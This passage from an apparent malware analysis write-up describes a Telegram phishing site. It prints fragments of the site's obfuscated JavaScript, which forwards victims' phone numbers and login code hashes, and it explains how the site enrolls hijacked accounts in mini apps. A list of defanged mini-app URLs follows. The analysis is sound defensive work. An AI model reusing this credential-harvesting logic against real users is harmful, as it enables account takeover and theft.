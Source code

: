 ```js
                const _0x2ed909 = _0x346efe;
                _0x565fa1[_0x2ed909(0x20c)][_0x2ed909(0x22a)]({
                    'phone_number': r[_0x2ed909(0x1fd)],
                    'phone_code_hash': r[_0x2ed909(0x21b)]
                });
            }
            ),
            v();
            break;
        }
    }
```
Looking deeper into the Telegram login code, the code fetches the page from `./pageIm` and loads it:
```js
  public async mount(...args: any[]) {
    // this.pageEl.style.display = '';

    if(this.onMount) {
      const res = this.onMount(...args);
      if(res instanceof Promise) {
        await res;
      }
    }

    this.installPromise ??= this.install(...args);
    await this.installPromise;

    pagesManager.setPage(this);
  }
```
However, this is where the phishing website loads a different page (located at `./2xdtpe8hc3yy.js`)
### MiniApps
The code enrolls the user for a couple of Telegram miniApps via the [messages.requestWebView](https://core.telegram.org/method/messages.requestWebView) API endpoint and sends the response back to the server. Now you might ask, why the heck should I care about those miniApps, so let me copy-paste the Telegram explanation:
```
Interactive [HTML5 Mini Apps](https://core.telegram.org/bots/webapps) on Telegram can completely replace **any website**.

They support [seamless authorization](https://telegram.org/blog/privacy-discussions-web-bots#meet-seamless-web-bots), [integrated payments](https://core.telegram.org/bots/payments) via multiple payment providers (with _Google Pay_ and _Apple Pay_ out of the box), delivering tailored push notifications to users, and [much more](https://core.telegram.org/bots).
```
So they allow **integrated payments, seamless authorization and much more** (Yay!).

The following miniApps are used:
- hxxps[://]walletbot[.]me/wv
- hxxps[://]farm[.]joincommunity[.]xyz/waiting
- hxxps[://]app[.]send[.]tg/
- hxxps[://]telegram[.]blum[.]codes/
